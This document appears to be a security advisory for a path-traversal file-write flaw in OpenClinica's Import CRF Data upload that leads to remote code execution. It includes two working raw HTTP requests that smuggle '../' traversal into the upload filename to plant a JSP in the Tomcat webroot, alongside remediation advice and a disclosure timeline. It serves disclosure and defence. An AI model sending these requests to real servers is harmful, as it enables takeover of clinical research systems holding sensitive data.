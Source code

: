 # OpenClinica Import CRF Data – RCE (path traversal arbitrary file write)

A remote code execution issue via path traversal in the **Import CRF Data** workflow.

---

## Product / Versions
- OpenClinica Community Edition  
  - **3.13** – Changeset `74f4df3481b6` (2017-02-28)  
  - **3.12.2** – Changeset `347dcfca3d17` (2016-11-21) (OpenClinica VM Image)

## Affected area
`Tasks → Import CRF Data` (multipart upload parameter: `xml_file`)

## Auth
Authenticated (tested as **Data Manager** and **Clinical Research Coordinator**)

## Summary
The upload handler trusts the client-supplied `filename` and accepts `../` traversal, allowing writes outside the intended directory. By targeting the deployed webapp path, an attacker can write a JSP and achieve execution when the file is requested.

## Screenshots
![Proof: web shell write and reverse shell as app server user](1.png)
![Proof: absolute path write to Tomcat webapps](2.png)

## Raw requests (abridged)

**Variant 1 – relative traversal into deployed app**
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X
Cookie: JSESSIONID=<...>

------X
Content-Disposition: form-data; name="xml_file"; filename="../webapps/OpenClinica/shell.jsp"
Content-Type: application/xml

<%-- JSP proof-of-execution payload --%><%= System.getProperty("user.name") %>
------X--
```

**Variant 2 – absolute path on typical Debian/Ubuntu Tomcat**
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X
Cookie: JSESSIONID=<...>

------X
Content-Disposition: form-data; name="xml_file"; filename="../../../../../../usr/share/tomcat/webapps/OpenClinica/shell.jsp"
Content-Type: application/xml

<%-- JSP proof-of-execution payload --%><%= System.getProperty("user.name") %>
------X--
```

Then browse to:
```
http://<target>:8080/OpenClinica/shell.jsp
```

## Impact
- Arbitrary file write on the host
- Remote Code Execution in the servlet container context
- Full compromise of confidentiality, integrity, and availability

## Severity (suggested)
**CVSS v3.1:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` → **8.8 High**  
**CWE:** 22 (Path Traversal), 434 (Unrestricted File Upload)

## Remediation
- Do not use the client `filename` to build paths. Save to a fixed, non-web-served directory with a server-generated name.
- Reject `..`, path separators, and absolute paths. Enforce content-type/extension allow-lists and validate XML server-side.
- Run Tomcat/OpenClinica as a non-privileged user; make webroots non-writable; disable JSP execution if not required.

## Timeline
- 2025-10-09: Discovered and reproduced on 3.12.2 and 3.13 images.
- 2025-10-09: Attempted to contact vendor, no response.
- 2025-10-23: Reported to VulDB.

